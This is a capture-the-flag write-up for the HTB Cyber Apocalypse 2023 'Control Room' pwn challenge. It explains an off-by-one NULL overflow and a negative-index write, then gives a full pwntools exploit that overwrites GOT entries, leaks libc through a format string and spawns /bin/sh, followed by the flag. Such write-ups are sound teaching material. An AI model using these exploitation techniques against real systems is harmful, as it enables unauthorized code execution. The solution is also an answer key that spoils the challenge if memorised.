 # Control Room - HTB Cyber Apocalypse 2023
> Writeup Author: [Mymaqn](https://github.com/Mymaqn)
>
> [`pwn_control_room.zip`](pwn_control_room.zip)

## Description
After unearthing the crashed alien spacecraft you have hacked your way into it's interior. Nothing seems perticularily interesting until you find the spacecraft's control room. Filled with monitors, buttons and panels this room surely contains a lot of important information, including the coordinates of the underground alien vessels that you 've been looking for. You decide to start off by booting up the main computer. You hear an uncanny buzzing-like noise and then a monitor lights up requesting you to enter a username. Can you take control of the Control Room?

## Solution
There are 2 bugs in this program.

An off-by-one NULL byte overflow inside of edit_user, which allows us to overwrite the user's role with a NULL byte to become Captain.
An OOB write in the configure_engine function, which allows us to write into indexes that are in the negative.

Checksec:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

I tried to figure out how to leak with the Captain. As he had the latitude longitude way of writing characters out. In the end I was only able to cause a stack leak with this, so I gave up and decided to take another approach which only really used the technician. The full exploit process was as follows:

1. Use NULL byte overflow to change ourselves to Captain in the beginning
2. Change role to technician
3. Overwrite exit GOT with user_register so we can use this as an arb write but without NULL bytes
4. Overwrite the curr_user pointer to point at the end of control_panel instead.
5. This changes us back to Captain so we change our role back to technician again
6. Overwrite puts' GOT so it becomes printf instead.
7. Make the program "exit" which calls user_register instead. This lets us write into the control_panel string. We write in a bunch of %p's, which causes a leak, since puts is now printf instead.
8. Receive leak
9. Overwrite strlen's GOT with system
10. Make the program call "exit" again which will call user_register. Write in /bin/sh. This will cause strlen which is actually system to be triggered with /bin/sh as input.


Exploit:

```py
from pwn import *

io = remote("165.232.100.84",31246)

#Become Captain
username = b'A'*0x100

io.recvuntil(b'Enter a username:')

io.send(username)

io.recvuntil(b'>')

io.sendline(b'n')

io.recvuntil(b'New username size:')

io.sendline(b'256')

io.recvuntil(b'Enter your new username:')
io.send(b'A'*0xff)

io.recvuntil(b'Option [1-5]:')

#Change role to technician
io.sendline(b'5')
io.recvuntil(b'New role:')
io.sendline(b'1')


#overwrite exit with user_register to get an arb write without NULL bytes
user_register = 0x0040170c
io.recvuntil(b'Option [1-5]:')
io.sendline(b'1')
io.recvuntil(b'Engine number [0-3]:')
io.sendline(b'-7')
io.recvuntil(b'Thrust:')
io.sendline(f"{user_register}".encode())
io.recvuntil(b'Mixture ratio:')
io.sendline(b'0')
io.recvuntil(b'(y/n)')
io.sendline(b'y')

#overwrite curr_user pointer to point at control_panel
io.recvuntil(b'Option [1-5]:')
io.sendline(b'1')
io.recvuntil(b'Engine number [0-3]:')
io.sendline(b'-2')
io.recvuntil(b'Thrust:')
io.sendline(f"{0x4053b8}".encode())
io.recvuntil(b'Mixture ratio:')
io.sendline(b'0')
io.recvuntil(b'(y/n)')
io.sendline(b'y')

#Change role to technician
io.sendline(b'5')
io.recvuntil(b'New role:')
io.sendline(b'1')


#overwrite puts to become printf
strncpy_orig_got = 0x401040
printf_plt = 0x004011e0
io.recvuntil(b'Option [1-5]:')
io.sendline(b'1')
io.recvuntil(b'Engine number [0-3]:')
io.sendline(b'-16')
io.recvuntil(b'Thrust:')
io.sendline(f"{strncpy_orig_got}".encode())
io.recvuntil(b'Mixture ratio:')
io.sendline(f"{printf_plt}".encode())
io.recvuntil(b'(y/n)')
io.sendline(b'y')

#overwrite the control panel with fmt string shit
io.recvuntil(b'Option [1-5]:')
io.sendline(b'6')
io.recvuntil(b'Enter a username:')
io.sendline(b'&'+b'%p_'*83+b'&')
io.recvuntil(b'&')
leak = int(io.recvuntil(b'&').split(b'_')[2],16)
libc_base = leak - 0x114a37

log.info(f"libc leak: {libc_base:#x}")

system = libc_base+0x00050d60

#overwrite strlen with system
stack_chk_orig_got = 0x401090
io.recvuntil(b'Option [1-5]:')
io.sendline(b'1')
io.recvuntil(b'Engine number [0-3]:')
io.sendline(b'-14')
io.recvuntil(b'Thrust:')
io.sendline(f"{system}".encode())
io.recvuntil(b'Mixture ratio:')
io.sendline(f"{stack_chk_orig_got}".encode())
io.recvuntil(b'(y/n)')
io.sendline(b'y')


#Send /bin/sh\x00 so that we call /bin/sh with strlen
io.recvuntil(b'Option [1-5]:')
io.sendline(b'6')

io.recvuntil(b'Enter a username:')
io.sendline(b'/bin/sh\x00')

io.interactive()
```

## Flag
`HTB{pr3p4r3_4_1mp4ct~~!}`